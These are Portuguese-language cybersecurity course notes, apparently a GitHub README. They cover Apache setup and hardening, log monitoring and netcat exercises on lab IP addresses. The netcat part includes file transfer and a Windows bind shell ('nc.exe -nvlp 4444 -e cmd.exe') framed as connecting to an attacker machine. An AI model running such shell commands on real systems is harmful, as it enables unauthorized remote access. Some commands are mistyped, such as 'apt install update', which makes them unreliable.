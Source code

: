 # FIAP-Cyber

#### Resumo colega: https://www.notion.so/flaviovicentin/Cybersecurity-b35d9c73f60249cdb12c28dc66c0d06a

## Resumo de Comandos

### Updates/Installs
> apt install update

> apt install upgrade

> apt install apache2 apache2-utils -y

> apt install net-tools

- Iniciar o servidor:
> service apache2 start

### Notes CP01

- Entrar no diretório padrão do servidor html:
> cd /var/www/html

- Vamos renomear o index.html para copial.html:
> mv index.html copia.html

- Gerar a primeira falha de segurança no webservice:
- Vamos criar arquivos na pasta padrão do webservice e ver eles exibidos do lado do cliente:
> touch bkp.txt cadastro.php

- criar o index.html, com o editor de texto do Linux – nano, e ver o que acontece com o webservice:
> nano index.html

*RESOLVENDO PROBLEMAS DE SEGURANÇA*

1. OCULTAR AS PASTAS PARA OS CLIENTES:
> nano /etc/apache2/apache2.conf

- Remover o INDEXES para não exibir mais as pastas disponíveis para os clientes.

- Restart o webservice apache:
> service apache2 restart

- Alterar a configuração do banner no apache:
> nano /etc/apache2/conf-enabled/security.conf

- Por padrão o apache vem com o token como o Sistema Operacional (SO) deseja e a assinatura online. 
- Mas por medida de segurança, devemos alterar para o modo de Produção.:
> Trocar de "ServerTokens OS" para "ServerTokens Prod" e desligar a assinatura "ServerSignature Off"

- Subir o servidor python na porta 8080
> python3 –m http.server 8080

VER LOGs do SERVIDOR APACHE
1. No apache, ele existe o caminho padrão das pastas
> cd /var/log/apach2
ls
8. Vamos monitorar o servidor e ver como ele vai agir.
> tail –f access.log

Montando a requisição REQUEST
> nc -v 127.0.0.1 80 

> GET / HTTP/1.0 (depois dar enter)

Validação com ECHO e CURL:
> $ echo -e "HEAD / HTTP/1.0\r\n\r\n" | nc__v_192.168.1.10 80

> $ curl -v 192.168.1.10/ijpj


### Instalação e Configuração

- Instalar o Netcat:
> apt install netcat

- Iniciar um servidor HTTP em Python na porta 8080:
> python3 -m http.server 8080

### Comandos Básicos

- Estabelecer uma conexão TCP com um host:
> nc -v 192.168.1.10 8080

- Mostrar informações detalhadas sobre as conexões:
> OPTIONS / HTTP/1.0
> GET / HTTP/1.1

- Mostrar as conexões de rede:
> netstat -nltp

### Manter Conexão com o Servidor

- Enviar uma requisição OPTIONS e manter a conexão:
> printf "OPTIONS / HTTP/1.0\r\n\r\n" | nc 192.168.1.10 80

- Verificar o IP do webserver em Python:
> ip -br -c a

### Chat Simples

- Abrir uma porta para o servidor:
> nc -lvp 1234

- Interagir com a porta do servidor:
> nc -v 192.168.1.10 1234

### Transferência de Arquivos

- Criar e enviar um arquivo do servidor para o cliente:
> echo "P4sswd" > senha.txt

> cat senha.txt | nc -lvp 1234

> nc -v 192.168.1.10 1234 > passwd.txt

- Exibir o hash MD5 do arquivo:
> md5sum senha.txt


### Transferência de Executáveis

- Transferir o arquivo nc.exe para uma máquina Windows:
> python3 -m http.server 1234

> nc -nv 192.168.1.30 4444


- Abrir uma porta no lado do cliente para executar o nc.exe e conectar à máquina do atacante:
> nc.exe -nvlp 4444 -e cmd.exe

Certifique-se de adaptar os endereços IP e portas conforme necessário para sua configuração.

### Comandos

- Criação de chat simples (servidor e cliente precisam estar na mesma rede):
> nc -lvp 1234

> nc -v 192.168.1.10 1234

- Transferir o nc.exe para uma VM Windows:
> python3 -m http.server 1234

> nc -nv 192.168.1.30 4444

### Enviar Arquivo entre Três Máquinas

Kali > VM01 > VM02

- No Kali, executar o seguinte comando no arquivo desejado:,
> nc -l -p 1234 > video.avi

- Na VM01, receber o arquivo da máquina Kali e disponibilizar para a VM02:
> nc -v 192.168.1.10 1234 | nc -l -p 4321




